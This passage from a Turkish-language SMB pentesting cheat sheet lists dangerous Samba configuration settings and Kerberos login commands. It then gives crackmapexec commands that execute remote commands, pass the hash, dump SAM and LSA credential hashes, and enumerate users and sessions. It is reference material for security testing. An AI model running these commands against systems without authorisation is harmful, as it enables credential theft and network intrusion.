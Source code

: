 Bir Samba sunucusunun **varsayılan yapılandırması** genellikle `/etc/samba/smb.conf` dosyasında bulunur ve bazı **tehlikeli yapılandırmalara** sahip olabilir:

| **Ayar**                    | **Açıklama**                                                       |
| --------------------------- | ------------------------------------------------------------------- |
| `browseable = yes`          | Mevcut paylaşımlarda paylaşımları listelemeye izin verir mi?         |
| `read only = no`            | Dosyaların oluşturulmasını ve değiştirilmesini yasaklar mı?          |
| `writable = yes`            | Kullanıcıların dosya oluşturmasına ve değiştirmesine izin verir mi?  |
| `guest ok = yes`            | Şifre kullanmadan hizmete bağlanmaya izin verir mi?                  |
| `enable privileges = yes`   | Belirli SID'ye atanmış ayrıcalıkları onaylar mı?                     |
| `create mask = 0777`        | Yeni oluşturulan dosyalara hangi izinler atanmalıdır?                |
| `directory mask = 0777`     | Yeni oluşturulan dizinlere hangi izinler atanmalıdır?                |
| `logon script = script.sh`  | Kullanıcının oturum açmasında hangi betik çalıştırılmalıdır?         |
| `magic script = script.sh`  | Betik kapatıldığında hangi betik çalıştırılmalıdır?                 |
| `magic output = script.out` | Büyülü betiğin çıktısı nereye kaydedilmelidir?                       |

`smbstatus` komutu, **sunucu** ve **kimin bağlı olduğu** hakkında bilgi verir.

## Kerberos ile Kimlik Doğrulama

**smbclient** ve **rpcclient** araçlarını kullanarak **kerberos** üzerinde **kimlik doğrulaması** yapabilirsiniz:
```bash
smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com
```
## **Komutları Yürütme**

### **crackmapexec**

crackmapexec, **mmcexec, smbexec, atexec, wmiexec**'i **kötüye kullanarak** komutları yürütebilir. Varsayılan yöntem olan **wmiexec**'i kullanmak istediğinizi belirtebilirsiniz. `--exec-method` parametresiyle hangi seçeneği kullanmak istediğinizi belirtebilirsiniz:
```bash
apt-get install crackmapexec

crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -H <HASH> #Pass-The-Hash
```